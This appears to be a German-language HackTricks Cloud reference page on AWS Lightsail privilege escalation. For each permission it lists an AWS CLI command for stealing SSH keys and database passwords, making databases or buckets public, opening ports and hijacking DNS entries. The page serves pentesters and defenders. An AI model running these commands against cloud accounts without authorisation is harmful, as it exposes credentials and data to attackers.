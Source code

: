# AWS - Lightsail Privilege Escalation

{% hint style="success" %}
Lernen Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys senden.

</details>
{% endhint %}

## Lightsail

Für weitere Informationen zu Lightsail siehe:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Es ist wichtig zu beachten, dass Lightsail **keine IAM-Rollen des Benutzers** verwendet, sondern einem von AWS verwalteten Konto zugeordnet ist. Daher können Sie diesen Dienst nicht zum Privilege Escalation missbrauchen. Es könnten jedoch **sensible Daten** wie Code, API-Schlüssel und Datenbankinformationen in diesem Dienst gefunden werden.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Diese Berechtigung ermöglicht es Ihnen, die SSH-Schlüssel zum Zugriff auf die Instanzen zu erhalten:
```
aws lightsail download-default-key-pair
```
**Potenzielle Auswirkungen:** Finden sensibler Informationen innerhalb der Instanzen.

### `lightsail:GetInstanceAccessDetails`

Diese Berechtigung ermöglicht es Ihnen, SSH-Schlüssel zu generieren, um auf die Instanzen zuzugreifen:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potenzielle Auswirkungen:** Sensible Informationen innerhalb der Instanzen finden.

### `lightsail:CreateBucketAccessKey`

Diese Berechtigung ermöglicht es Ihnen, einen Schlüssel zum Zugriff auf den Bucket zu erhalten:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potenzielle Auswirkungen:** Sensible Informationen im Bucket finden.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Diese Berechtigung ermöglicht es Ihnen, die Anmeldeinformationen zum Zugriff auf die Datenbank abzurufen:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potenzielle Auswirkungen:** Sensible Informationen in der Datenbank finden.

### `lightsail:UpdateRelationalDatabase`

Diese Berechtigung ermöglicht es Ihnen, das Passwort zum Zugriff auf die Datenbank zu ändern:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Wenn die Datenbank nicht öffentlich ist, könnten Sie sie auch mit diesen Berechtigungen öffentlich machen mit

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potenzielle Auswirkungen:** Sensible Informationen in der Datenbank finden.

### `lightsail:OpenInstancePublicPorts`

Diese Berechtigung ermöglicht das Öffnen von Ports für das Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potenzielle Auswirkungen:** Zugriff auf sensible Ports.

### `lightsail:PutInstancePublicPorts`

Diese Berechtigung ermöglicht das Öffnen von Ports für das Internet. Beachten Sie, dass der Aufruf jeden nicht spezifizierten geöffneten Port schließt.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potenzielle Auswirkungen:** Zugriff auf sensible Ports.

### `lightsail:SetResourceAccessForBucket`

Diese Berechtigungen ermöglichen es, einer Instanz Zugriff auf einen Eimer zu gewähren, ohne zusätzliche Anmeldeinformationen. 

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Potenzielle Auswirkungen:** Potenzieller neuer Zugriff auf Eimer mit sensiblen Informationen.

### `lightsail:UpdateBucket`

Mit dieser Berechtigung könnte ein Angreifer seinem eigenen AWS-Konto Lesezugriff auf Eimer gewähren oder die Eimer sogar für alle öffentlich machen:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potenzielle Auswirkungen:** Potenzieller neuer Zugriff auf Eimer mit sensiblen Informationen.

### `lightsail:UpdateContainerService`

Mit diesen Berechtigungen könnte ein Angreifer Zugriff auf private ECRs vom Containerdienst gewähren.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potenzielle Auswirkungen:** Erhalten sensibler Informationen aus privatem ECR

### `lightsail:CreateDomainEntry`

Ein Angreifer mit dieser Berechtigung könnte eine Subdomain erstellen und sie auf seine eigene IP-Adresse umleiten (Subdomain-Übernahme), oder einen SPF-Eintrag erstellen, der es ihm ermöglicht, E-Mails von der Domain zu fälschen, oder sogar die Hauptdomain auf seine eigene IP-Adresse setzen.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potenzielle Auswirkung:** Übernahme einer Domain

### `lightsail:UpdateDomainEntry`

Ein Angreifer mit dieser Berechtigung könnte eine Subdomain erstellen und sie auf seine eigene IP-Adresse umleiten (Subdomain-Übernahme), oder einen SPF-Eintrag erstellen, der es ihm ermöglicht, E-Mails von der Domain zu fälschen, oder sogar die Hauptdomain auf seine eigene IP-Adresse setzen.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potenzielle Auswirkungen:** Übernahme einer Domain

{% hint style="success" %}
Lernen Sie & üben Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie & üben Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github Repositories einreichen.

</details>
{% endhint %}
